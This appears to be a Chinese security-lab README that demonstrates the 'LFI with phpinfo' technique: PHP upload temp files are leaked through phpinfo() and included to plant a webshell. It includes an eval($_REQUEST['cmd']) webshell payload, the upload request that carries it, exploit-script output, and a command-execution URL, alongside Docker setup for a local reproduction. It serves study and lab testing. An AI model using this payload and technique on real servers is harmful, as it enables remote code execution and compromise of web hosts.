 # LFI with phpinfo

原理: 利用php post上传文件产生临时文件，phpinfo()读临时文件的路径和名字，本地包含漏洞生成1句话后门

demo: 源码存放在 code目录下， 利用docker再现

参考：

[http://gynvael.coldwind.pl/download.php?f=PHP_LFI_rfc1867_temporary_files.pdf][1]

[http://www.insomniasec.com/publications/LFI%20With%20PHPInfo%20Assistance.pdf][2]

## php 上传

向服务器上任意php文件**post请求上传文件**时，都会生成临时文件，可以直接在phpinfo页面找到临时文件的路径及名字。

* post上传文件

php post方式上传任意文件，服务器都会创建临时文件来保存文件内容。

在HTTP协议中为了方便进行文件传输，规定了一种基于表单的[ HTML文件传输方法 ][5]

其中要确保上传表单的属性是 enctype=”multipart/form-data，必须用POST 参见: [ php file-upload.post-method ][5] 

其中PHP引擎对enctype=”multipart/form-data”这种请求的处理过程如下：

‍1、请求到达；

‍2、创建临时文件，并写入上传文件的内容；

‍3、调用相应PHP脚本进行处理，如校验名称、大小等；

‍4、删除临时文件。

PHP引擎会首先将文件内容保存到临时文件，然后进行相应的操作。临时文件的名称是 php+随机字符 。

* $_FILES信息，包括临时文件路径、名称

在PHP中，有超全局变量$_FILES,保存上传文件的信息，包括文件名、类型、临时文件名、错误代号、大小


## 手工测试phpinfo()获取临时文件路径

* html表单

文件 upload.html

```
<!doctype html>
<html>
<body>
    <form action="phpinfo.php" method="POST" enctype="multipart/form-data">
    <h3> Test upload tmp file</h3>
    <label for="file">Filename:</label>
    <input type="file" name="file"/><br/>
    <input type="submit" name="submit" value="Submit" />
</form>
</body>
</html>
```

* 浏览器访问 upload.html, 上传文件 file.txt

```
<?php
eval($_REQUEST["cmd"]);
?>
```

* burp 查看POST 信息如下

```
POST /LFI_phpinfo/phpinfo.php HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:44.0) Gecko/20100101 Firefox/44.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://127.0.0.1/LFI_phpinfo/upload.html
Connection: close
Content-Type: multipart/form-data; boundary=---------------------------11008921013555437861019615112
Content-Length: 368

-----------------------------11008921013555437861019615112
Content-Disposition: form-data; name="file"; filename="file.txt"
Content-Type: text/plain

<?php
eval($_REQUEST["cmd"]);
?>

-----------------------------11008921013555437861019615112
Content-Disposition: form-data; name="submit"

Submit
-----------------------------11008921013555437861019615112--
```

* phpinfo获得如下信息：

```
_REQUEST["submit"]	
    Submit
    
_POST["submit"]	
    Submit
    
_FILES["file"]	
    Array
    (
        [name] => file.txt
        [type] => text/plain
        [tmp_name] => /tmp/phpufdCHh
        [error] => 0
        [size] => 33
    )
```

得到tmp_name 路径

## python 程序查看

```
import requests

host = '127.0.0.1'
url = 'http://{ip}/LFI_phpinfo/phpinfo.php'.format(ip=host)
file_ = '/var/www/LFI_phpinfo/file.txt'

response = requests.post(url, files={"name": open(file_, 'rb')})

print(response.text)
```

* 结果

```
<tr><td class="e">_FILES["name"]</td><td class="v"><pre>Array
(
    [name] =&gt; file.txt
    [type] =&gt; 
    [tmp_name] =&gt; /tmp/php7EvBv3
    [error] =&gt; 0
    [size] =&gt; 33
)
```

## 临时文件的权限

```
-rw------- 1 www-data www-data 91 Feb 25 18:10 phpkO4ITS
```

## 本地搭建 demo

* get shell

```
$ python lfi_phpinfo.py 127.0.0.1

LFI with phpinfo()
==============================
INFO:__main__:Getting initial offset ...
INFO:__main__:found [tmp_name] at 67801
INFO:__main__:
Got it! Shell created in /tmp/g
INFO:__main__:Wowo! \m/
INFO:__main__:Shutting down...
```

* firefox 访问 

```
http://127.0.0.1/LFI_phpinfo/lfi.php?load=/tmp/gc&f=id

uid=33(www-data) gid=33(www-data) groups=33(www-data)
``` 

## docker 构建

* 镜像源

-- [php:5.6-apache 官方源][3]

或

-- [janes/lfi_phpinfo][4]

php:5.6-apache 官方源

```
With Apache
More commonly, you will probably want to run PHP in conjunction with Apache httpd. Conveniently, there's a version of the PHP container that's packaged with the Apache web server.

Create a Dockerfile in your PHP project
FROM php:5.6-apache
COPY src/ /var/www/html/
Where src/ is the directory containing all your php code. Then, run the commands to build and run the Docker image:

$ docker build -t my-php-app .
$ docker run -d --name my-running-app my-php-app
We recommend that you add a custom php.ini configuration. COPY it into /usr/local/etc/php by adding one more line to the Dockerfile above and running the same commands to build and run:

FROM php:5.6-apache
COPY config/php.ini /usr/local/etc/php/
COPY src/ /var/www/html/
Where src/ is the directory containing all your php code and config/ contains your php.ini file.
```

* 构建

切换到web目录下

```
cd web
```

--docker run test

```
docker run --rm -v code/:/var/www/html -p 80:80 php:5.6-apache
```

--docker image build

```
docker build -t "janes/lfi_phpinfo"
docker run --rm -p "80:80" janes/lfi_phpinfo
```

--docker-compose

```
docker-compose up
```

[1]: http://gynvael.coldwind.pl/download.php?f=PHP_LFI_rfc1867_temporary_files.pdf
[2]: http://www.insomniasec.com/publications/LFI%20With%20PHPInfo%20Assistance.pdf
[3]: https://hub.docker.com/_/php/
[4]: https://hub.docker.com/r/janes/lfi_phpinfo/
[5]: http://www.faqs.org/rfcs/rfc1867.html